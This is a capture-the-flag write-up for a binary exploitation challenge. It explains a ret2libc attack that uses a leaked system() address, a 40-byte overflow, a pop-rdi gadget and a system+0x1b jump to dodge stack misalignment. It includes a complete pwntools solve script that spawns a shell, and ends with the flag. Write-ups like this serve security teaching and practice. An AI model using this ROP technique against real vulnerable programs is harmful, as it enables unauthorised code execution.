 
# Challenge description

When executed, the binary gives you a gift (an address) and then prompts you to enter a name, then whatever your input is you'll receive a segmentation fault, how strange!!

# Solution

After debugging the binary, we see that the gift address is the address of the libc function system,
so the solution to the challenge might be a ret2libc.

We also notice that we can input 40 characters until we reach a return address.

After getting the base address of libc and getting the address of '/bin/sh', we construct our ROP chain using gadgets present in libc.

So our payload basically looks like this :
    
    Padding + address of POP_RDI + address of /bin/sh + address of SYSTEM

But when run, we still get a segmentation fault.

After checking, we see that the function `system('/bin/sh')` does get executed, but the segmentation fault arises from within it.

After disassembling the system, we notice that it performs a function call to `do_system()` at offset 0x1b, let's try to jump directly to that call.

Let's try the following payload:

    Padding + address of POP_RDI + address of /bin/sh + address of SYSTEM + 0x1b

We run it, and sure enough, we get a shell :).

# Solve Script

```python
from pwn import *

elf = ELF('./unaligned')
context.binary = elf
p = process(elf.path)
#p = remote(host='unaligned.bsides.shellmates.club', port=443, ssl=True)
libc = ELF('./libc.so.6')

p.recvuntil('Gift: ')
system = int(p.recv(14), 16)

log.warn('system offset at : ' + str(hex(libc.symbols['system'])))

libc.address = system - libc.symbols['system']

log.warn('system at : ' + str(hex(system)))

bin_sh = p64(next(libc.search(b'/bin/sh\0')))

padding = b'B' * 40

system = p64(system + 0x1b)

pop_rdi = p64(libc.address + 0x2164f)

p.sendline(padding + pop_rdi + bin_sh + system)

p.interactive()
```

# Flag

`shellmates{SOrRY_fOR_f0RciBLy_Un$4tify1ng_0ne_g4DGet_CoN$tr41nT$}`
